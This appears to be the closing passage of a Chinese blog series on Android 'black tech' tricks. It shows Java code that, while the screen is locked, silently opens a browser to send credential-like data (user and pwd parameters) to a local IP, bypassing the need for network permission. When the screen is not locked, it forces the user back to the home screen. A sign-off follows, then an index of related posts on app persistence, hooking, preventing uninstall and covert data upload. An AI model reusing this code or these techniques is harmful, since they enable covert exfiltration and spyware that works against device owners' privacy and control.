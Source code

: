 ````
     Timer  timer = new Timer();
        final KeyguardManager  km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
        TimerTask   task = new TimerTask() {
            @Override
            public void run() {
                // TODO: 2017/6/26  如果用户锁屏状态下，就打开网页通过get方式偷偷传输数据
                if (km.inKeyguardRestrictedInputMode()) {
                    Intent intent = new Intent();
                    intent.setAction(Intent.ACTION_VIEW);
                    intent.addCategory(Intent.CATEGORY_BROWSABLE);
                    intent.setData(Uri
                            .parse("http://192.168.0.2/send?user=1&pwd=2"));
                    intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                    startActivity(intent);
                }else{
                    // TODO: 2017/6/26  判断如果在桌面就什么也不做 ,如果不在桌面就返回
                    Intent intent = new Intent();
                    intent.setAction("android.intent.action.MAIN");
                    intent.addCategory("android.intent.category.HOME");
                    intent.addCategory(Intent.CATEGORY_DEFAULT);
                    intent.addCategory("android.intent.category.MONKEY");
                    intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                    startActivity(intent);
                }
            }
        };
        timer.schedule(task, 1000, 2000);
```

---

## 谢幕
本系列到这里算是完结了。这个系列的技术大多数来自互联网上。我只是感兴趣做了一些自己的研究。做这些事情告诉我一个道理，论阅读源码的重要性。我也不是什么大神，只是普通的一个程序员。别再叫我大佬了。虽然我在过往的文风中老是大佬大佬的。但那只是编的故事。哈哈


我们这代人就像红橙Darren说的给了我们年轻人太多。这一路上我总是在特殊的时间点是上遇到贵人，在他们的帮助下少走不少弯路。真的很感谢这一切的发生。还有在看文章的你。真的，你们每一次点赞、喜欢、评论和关注都成为了我继续努力的动力 ，以前我只是写给自己看做一下笔记，当我发现越来越多的人在看我写的东西的时候，我想我就必须对此负责，而不是随便搞搞。


特别感谢公众号**码个蛋** ****[BaseRecyclerViewAdapterHelper](https://github.com/CymChad/BaseRecyclerViewAdapterHelper)****的作者陈宇明。最近两天交流之中感受颇多。在这里表示谢谢他的指点。老哥，稳！

---
[那些年Android黑科技①:只要活着，就有希望](http://www.jianshu.com/p/cb2deed0f2d8)
- android应用内执行shell
- 双进程保活aidl版
- 双进程保活jni版
- 保活JobService版

[那些年Android黑科技②:欺骗的艺术](http://www.jianshu.com/p/2ad105f54d07)
- hook技术
- 欺骗系统之偷梁换柱

[那些年Android黑科技③:干大事不择手段 ](http://www.jianshu.com/p/8f9b44302139)
- 应用卸载反馈
- Home键监听
- 桌面添加快捷方式
- 无法卸载app(DevicePolicManager)
- 无网络权限偷偷上传数据

---
# 如何下次找到我?
````